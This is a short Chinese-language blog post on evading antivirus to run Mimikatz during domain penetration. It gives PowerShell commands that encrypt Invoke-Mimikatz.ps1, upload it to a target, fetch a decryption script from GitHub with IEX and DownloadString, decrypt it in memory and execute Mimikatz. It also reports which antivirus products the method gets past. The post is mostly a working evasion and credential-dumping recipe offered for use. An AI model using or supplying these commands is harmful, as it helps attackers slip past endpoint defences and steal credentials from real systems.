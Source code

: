 ```yaml
---
layout: post
title: 绕过杀软执行Mimikatz
date: 2020-11-03 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}

各路大神绕过杀软执行Mimikatz的方法有很多，在这里记录平时用到的方法，以下方法均来自网络，感谢各位大神。 

{:refdef: style="text-align: center;"}
![Mimikatz]() 
{: refdef}




图片来源于 https://www.izoologic.com/2019/07/31/mimikatz-ransomware-specially-designed-for-hacking/
### \#0x00 使⽤Out-EncryptedScript加密绕过查杀

通过加密脚本将Invoke-Mimikatz.ps1加密，加密后的文件可以逃过杀软的静态查杀，这里使用Powersploit提供的加解密脚本[Out-EncryptedScript](XXXXXXXXXXXXX)(Powersploit中还有其他加解密脚本)。  
具体方法如下：  
首先将Invoke-Mimikatz.ps1在本地加密。
```
Import-Module .\Out-EncryptedScript.ps1
Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password RdGIA*@$ -Salt 7DX8oqHM
```
执行上述命令后将在本目录下生成加密后的文件evil.ps1。  
将evil.ps1上传至目标系统，通过powershell将解密脚本下载并加载至内存解密evil.ps1执行，执行如下命令可绕过部分杀软执行Mimikatz。  
已测试绕过的杀软包括360和McAfee，avast的web shield会阻止下载Out-EncryptedScript.ps1文件，无法绕过windows defender的RealTime Protection。
```
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Out-EncryptedScript.ps1")
[String] $cmd = Get-Content .\evil.ps1 
Invoke-Expression $cmd 
$decrypted = de RdGIA*@$ 7DX8oqHM
Invoke-Expression $decrypted 
Invoke-Mimikatz
```


### 参考
* [TideSec/BypassAntiVirus](https://github.com/TideSec/BypassAntiVirus)
